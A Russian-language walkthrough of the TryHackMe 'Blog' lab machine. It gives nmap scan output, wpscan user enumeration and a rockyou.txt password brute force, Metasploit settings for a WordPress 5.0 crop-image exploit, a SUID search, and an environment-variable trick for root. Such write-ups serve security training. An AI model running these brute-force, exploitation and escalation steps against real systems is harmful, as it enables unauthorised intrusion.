 # Blog

:white_check_mark:  [**Wpscan user enum**](#wpscan_user)

:white_check_mark: [**Wpscan pass brute**](#wpscan_pass)

:white_check_mark: [**Wordpress 5.0 Crop-image exploit**](#crop_image)

:white_check_mark: [**Getenv(privesc)**](#getenv)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV blog.thm
```

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-04-26T17:11:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2022-04-26T17:11:44+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

Главная страница сайта:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/1.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/2.png)

Видим что сайт работает на wordpress версии 5.0

Проверим директорию /wp-admin/

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/3.png)

<a name="wpscan_user"></a>

Соберем информацию использую **wpscan**:
```
wpscan --url http://blog.thm --enumerate u
```

Получаем имена пользователей

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/4.png)

<a name="wpscan_pass"></a>

Попробуем сбрутить пароль для пользователя kwheel:
```
wpscan --url blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kweel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/5.png)

<a name="crop_image"></a>

Посмотрим существующие эксплоиты для wordpress 5.0
```
searchsploit wordpress 5.0
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/6.png)

Видим эксплоит, который можно запустить через metasploit. Запускаем metasploit комадой **msfconsole**.

Найдем по названию нужный нам эксплоит и выберем его для использования. Просмотрим, какие параметры нужны эксплоиту.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/7.png)

Выставм нужные параметры.
```
set PASSWORD <password>
set USERNAME <username>
set RHOSTS <ip_of_victim_machine>
set LHOST <ip_of_our_machine>
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/8.png)

Запускаем эксплоит и получаем доступ к машине:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/9.png)

Находим первый флаг в директории **/home/bjoel**, но увы, нам говорят, что он находится в другом месте. Также мы видим другой файл Billy_Joel_Termination_May20-2020.pdf. Скачаем его командой **download** Billy_Joel_Termination_May20-2020.pdf.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/10.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/11.png)

Попробуем командой **find** найти первый флаг:
```
find / -type f -name user.txt 2>/dev/null
```

Файл находится в директории /media/usb, к которой мы не имеем доступа.

Попробуем найти файлы с битом SUID.
```
find / -perm -u=s 2>/dev/null
```

<a name="getenv"></a>

Находим странный файл /usr/sbin/checker. Это скомпилированный файл, поэтому качаем его на свою машину и попробуем зареверсить. Сделав это, получаем следующий код.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/12.png)

Мы видим что некая переменная ищет переменную окружения admin и если ее нет, то говорит "Not an Admin". Добавим переменную окружения admin командой:
```
export admin=123
```
Затем запустим программу и получим рута, после чего, мы сможем получить оба флага.
